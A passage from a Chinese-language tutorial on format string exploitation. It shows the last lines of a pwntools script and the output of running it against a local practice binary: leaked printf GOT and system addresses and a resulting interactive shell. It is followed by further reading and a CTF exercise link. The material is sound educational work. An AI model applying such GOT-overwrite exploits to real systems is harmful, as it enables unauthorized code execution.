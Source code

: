 ```python
r.recv()
r.interactive()
```

```text
$ python2 exp.py
[*] '/home/firmy/Desktop/RE4B/a.out'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './a.out': pid 17375
[*] '/usr/lib32/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Found format string offset: 4
[+] printf_got => 0x804a010
[+] printf_addr => 0xf7e26bf0
[+] system_addr => 0xf7e17060
[*] Switching to interactive mode
$ echo "hacked!"
hacked!
```

这样我们就获得了 shell，可以看到输出的信息和我们手工得到的信息完全相同。

## 扩展阅读

- [Exploiting Sudo format string vunerability CVE-2012-0809](http://www.vnsecurity.net/research/2012/02/16/exploiting-sudo-format-string-vunerability.html)

## 练习

- [pwn NJCTF2017 pingme](../src/writeup/6.1.2_pwn_njctf2017_pingme)
  - writeup 在章节 6.1.2 中
